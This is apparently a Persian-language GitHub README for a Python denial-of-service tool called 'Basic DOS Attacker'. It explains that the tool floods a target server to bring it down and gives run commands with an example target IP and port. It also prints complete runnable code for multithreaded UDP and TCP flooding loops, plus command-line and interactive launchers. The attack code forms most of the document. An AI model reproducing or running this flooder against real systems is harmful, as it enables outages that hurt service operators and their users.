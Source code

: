 # Basic DOS Attacker

این یک اسکریپت ساده و پایه ای جهت انجام حملات محروم سازی از سرویس است.
این برنامه از طریق ایجاد سیل هایی از بسته ها و ارسال آن ها به سرور مقصد باعث بالا رفتن لود سرور و در نهایت از کار افتادگی آن می شود.


## نصب ابزار مورد نیاز

این پروژه برای اجرا تنها به پایتون ۳ نیاز دارد. در این پروژه تنها از پکیج های داخلی پایتون استفاده شده است و نیازی به نصب پکیج بیرونی نیست.
لییست پکیج های داخلی به کار رفته در آن به صورت زیر است:
```bash
socket
threading
random
time
argparse
```

## اجرای اسکریپت

برای اجرای اسکریپت کافی است دستور زیر را اجرا کنید:
```bash
python main.py -a 188.121.110.10 -p 8085
```

همچنین برای مشاهده راهنمای برنامه و آرگومان های ورودی می توانید از دستور زیر استفاده کنید:
```bash
python main.py -h
```

برای خاتمه اسکریپت می توانید از سیگنال زیر استفاده کنید:
```bash
ctrl + c
```

آرگومان های ورودی به صورت زیر تعریف شده است:
```bash
usage: main.py [-h] -a ADDRESS [-p PORT] [-c CHOICE] [-m PACKETS] [-t THREADS]

Basic DOS Attacker

optional arguments:
  -h, --help  show this help message and exit
  -a ADDRESS  Hostname or IP address
  -p PORT     Port, default 80
  -c CHOICE   UDP or TCP, default UPD
  -m PACKETS  Num of packets in a socket, default 10
  -t THREADS  Num of threads, default 2
```

همچنین یک منو تعاملی با رابط ترمینال نیز فراهم شده است. برای اجرای آن می توانید از دستور زیر استفاده کنید:
```bash
python menu.py
```


## توضیح اسکریپت

نحوه ایجاد جریان یو دی پی در کد زیر وجود دارد که در ادامه توضیح داده خواهد شد:
```python
def udp_flooder(thread_number, ip, port, packets):
    data = random._urandom(1024)
    s = None
    while True:
        try:
            # UDP = SOCK_DGRAM
            s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
            address = (str(ip), int(port))
            for _ in range(packets):
                s.sendto(data, address)
            s.close()
            print(f"[{thread_number}] {packets} UDP packet sent")
        except (KeyboardInterrupt, socket.error):
            s.close()
            print(f"[{thread_number}] Error!")
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال یو دی پی است.
ابتدا یک داده با طول 1024 به صورت رندوم تولید می شود.
سپس در یک حلقه بی نهایت یک سوکت از نوع یو دی پی ساخته می شود.
با اتصال آی پی و پورت آدرس کامل به دست می آید.
سپس در اتصال سوکت به تعداد بسته های مطلوب بسته ارسال می کنیم.
در نهایت اتصال را می بندیم و لاگ آن را چاپ می کنیم.


نحوه ایجاد جریان تی سی پی در کد زیر وجود دارد که در ادامه توضیح داده خواهد شد:
```python
def tcp_flooder(thread_number, ip, port, packets):
    data = random._urandom(16)
    s = None
    while True:
        try:
            # TCP = SOCK_STREAM
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, port))
            s.send(data)
            for _ in range(packets):
                s.send(data)
            print(f"[{thread_number}] {packets} TCP packet sent")
            s.close()
        except (KeyboardInterrupt, socket.error):
            s.close()
            print(f"[{thread_number}] Error!")
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال تی سی پی است.
ابتدا یک داده با طول 16 به صورت رندوم تولید می شود.
سپس در یک حلقه بی نهایت یک سوکت از نوع تی سی پی ساخته می شود.
با اتصال آی پی و پورت آدرس کامل به دست می آید.
سپس اتصال تی سی پی برقرار می شود. مشاهده شد که در حالت تی سی پی نیاز به اتصال بود اما در یو دی پی اینطور نبود.
سپس در اتصال سوکت به تعداد بسته های مطلوب بسته ارسال می کنیم.
در نهایت اتصال را می بندیم و لاگ آن را چاپ می کنیم.

تابع زیر با گرفتن نوع اتصال تابع تولید کننده جریان را خروجی می دهد.
از این تابع برای انتخاب جریان ساز درون مدیر رشته های پردازشی استفاده خواهد شد:
```python
def flooder_selector(choice):
    if choice == "UDP":
        return udp_flooder
    elif choice == "TCP":
        return tcp_flooder
    else:
        return None
```

یک تابع برای مدیریت رشته های پردازشی ایجاد شده است:
```python
def thread_manager(threads, flooder, ip, port, packets):
    for i in range(threads):
        th = threading.Thread(target=flooder, daemon=True, args=(i, ip, port, packets))
        th.start()
```
این تابع چهار ورودی دارد که ورودی اول آن شماره رشته پردازشی مسئول است.
ورودی دوم آدرس سرور مقصد است.
ورودی سوم شماره پورت سرور مقصد است.
ورودی چهارم تعداد بسته های درون هر اتصال است.
سپس به تعداد رشته های پردازشی مورد نیاز رشته حاوی جریان تولید می شود.
رشته های ساخته شده از نوع دیمن می باشند که در پشت صحنه رشته اصلی اجرا می شود و دارای اولویت کمتری نسبت به آن است. هنگامی که رشته اصلی از بین می رود تمامی رشته های دیمن نیز از بین خواهند رفت.


در نهایت یک تابع اصلی برای تجزیه آرگومان های ورودی و اجرای توابع بالا ایجاد شده است:
```python
if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Basic DOS Attacker')
    parser.add_argument("-a", dest="address", required=True, help="Hostname or IP address")
    parser.add_argument("-p", dest="port", default=80, type=int, help="Port, default 80")
    parser.add_argument("-c", dest="choice", default="UDP", help="UDP or TCP, default UPD")
    parser.add_argument("-m", dest="packets", default=10, type=int, help="Num of packets in a socket, default 10")
    parser.add_argument("-t", dest="threads", default=2, type=int, help="Num of threads, default 2")
    args = parser.parse_args()

    ip = args.address
    port = args.port
    choice = args.choice
    packets = args.packets
    threads = args.threads

    flooder = flooder_selector(choice)
    thread_manager(threads, flooder, ip, port, packets)

    while True:
        time.sleep(2)
```
در انتهای این تابع یک حلقه بی نهایت ایجاد شده است تا رشته اصلی تمام نشود.
زیرا اگر این رشته تمام شود تمام زیر رشته های دیمن آن نیز خاتمه می یابند.

تابع منو نیز مشابه تابع بالا است اما به صورت تعامل از طریق ترمینال:
```python
if __name__ == '__main__':
    ip = str(input("Hostname or IP address: "))
    port = int(input("Port: "))
    choice = str(input("UDP or TCP: "))
    packets = int(input("Num of packets in a socket: "))
    threads = int(input("Num of threads: "))

    flooder = flooder_selector(choice)
    thread_manager(threads, flooder, ip, port, packets)

    while True:
        time.sleep(2)
```


## نتایج